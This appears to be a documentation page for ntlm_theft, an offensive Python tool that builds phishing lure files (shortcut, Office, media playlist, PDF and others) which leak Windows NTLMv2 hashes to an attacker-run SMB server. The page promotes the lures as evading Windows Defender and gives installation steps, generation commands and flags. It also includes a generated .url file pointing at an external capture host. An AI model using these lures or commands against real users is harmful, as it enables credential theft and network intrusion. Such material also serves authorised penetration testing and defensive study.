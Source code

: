 ```yaml
---
title : "ntlm_theft"
# pre : ' '
description : "A tool for generating multiple types of NTLMv2 hash theft files."
date : 2022-09-19T08:41:52+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

`ntlm_theft` is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 17 of the 21 attacks worked on a fully patched Windows 10 host.  

`ntlm_theft` supports the following attack types:

- Browse to Folder Containing
  - .url – via URL field
  - .url – via ICONFILE field
  - .lnk - via icon_location field
  - .scf – via ICONFILE field (Not Working on Latest Windows)
  - autorun.inf via OPEN field (Not Working on Latest Windows)
  - desktop.ini - via IconResource field (Not Working on Latest Windows)
- Open Document
  - .xml – via Microsoft Word external stylesheet
  - .xml – via Microsoft Word includepicture field
  - .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
  - .docx – via Microsoft Word includepicture field
  - .docx – via Microsoft Word external template
  - .docx – via Microsoft Word frameset webSettings
  - .xlsx - via Microsoft Excel external cell
  - .wax - via Windows Media Player playlist (Better, primary open)
  - .asx – via Windows Media Player playlist (Better, primary open)
  - .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
  - .jnlp – via Java external jar
  - .application – via any Browser (Must be served via a browser downloaded or won’t run)
- Open Document and Accept Popup
  - .pdf – via Adobe Acrobat Reader
- Click Link in Chat Program
  - .txt – formatted link to paste into Zoom chat

## Installation

```plain
git clone https://github.com/Greenwolf/ntlm_theft.git
python3 -m pip install xlsxwriter
```

## Usage

```plain
ntlm_theft.py --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>
```

## Flags

```plain
ntlm_theft by Jacob Wilkin(Greenwolf)

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -vv, --verbose        Verbose Mode
  -g {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}, --generate {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}
                        Choose to generate all files or a specific filetype
  -s SERVER, --server SERVER
                        The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
  -f FILENAME, --filename FILENAME
                        The base filename without extension, can be renamed later (test, Board-Meeting2020, Bonus_Payment_Q4)
```

Required parameters.

```plain
-g, --generate  : Choose to generate all files or a specific filetype
-s, --server    : The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename  : The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

## Examples

### Create LNK file(s)

```plain
$ python3 ntlm_theft.py -g lnk -s 10.10.10.10 -f generated-file    
Created: generated-file/generated-file.lnk (BROWSE TO FOLDER)
Generation Complete.
```

### Create URL file(s)

```plain
$ python3 ntlm_theft.py -g url -s 10.10.10.10 -f generated-url  
Created: generated-url/generated-url-(url).url (BROWSE TO FOLDER)
Created: generated-url/generated-url-(icon).url (BROWSE TO FOLDER)
Generation Complete.

$ cat generated-url/generated-url-\(url\).url 
[InternetShortcut]
URL=file://10.10.10.10/leak/leak.html
```

## URL List

- [Github.com - ntlm_theft](https://github.com/Greenwolf/ntlm_theft)
